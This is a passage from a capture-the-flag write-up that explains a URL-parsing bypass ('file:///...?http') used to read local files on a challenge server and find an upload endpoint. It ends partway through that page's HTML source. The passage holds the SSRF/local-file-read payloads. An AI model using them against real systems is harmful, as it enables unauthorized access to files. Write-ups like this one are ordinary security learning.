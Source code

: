 In URL syntax, “?” starts the query string and does not alter the scheme, authority, or path that precede it. Therefore, in file:///?http, the scheme remains file, and the part after “?” is just a query component that is ignored by the scheme resolution for the actual target resource.

## 2. Internal discovery phase

Now that we’ve got access to the machine, it’s time for the fun part: start enumerating. 

I start enumerating from the root and find the flag there, but the solution still requires RCE, so the joy is short‑lived. But let's take this as our "first solution".

![7]

Next up, I enumerate the /var/www/html path since that’s where all the site’s pieces live, to see if there’s an endpoint I couldn’t turn up with my earlier enumeration.

And BINGO: a new endpoint shows up, `upload_shoppix_images.php`, which looks like exactly what’s needed to keep going (Do you remember the uploads folder?).

![8]

**Payload: `file:///var/www/html?http`**

Let’s analyze this file.

**Payload: `file:///var/www/html/upload_shoppix_images.php?http`**
```http
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>Shoppix Upload</title>
  <link href="https://fonts.googleapis.com/css2?family=Montserrat:wght@400;600&display=swap" rel="stylesheet">
  <style>
    body { 
      background: #0d0d0d; 
      color: #f1f1f1; 
      font-family: 'Montserrat', sans-serif; 
      margin: 0; 
      display: flex; 
      align-items: center; 
      justify-content: center; 
      height: 100vh; 
    }
    .card {
      background: #1e1e1e;
      padding: 40px;
      border-radius: 12px;
      box-shadow: 0 4px 15px rgba(0,0,0,0.4);
      text-align: center;
      width: 450px;
    }
    h1 { color: #03a9f4; margin-bottom: 20px; }
    input[type=file] {
      margin: 15px 0;
      color: #ddd;
    }
    button {
      padding: 12px 25px; 
      border: none; 
      border-radius: 6px; 
      background: #03a9f4; 
      color: white; 
      font-weight: 600; 
      cursor: pointer;
```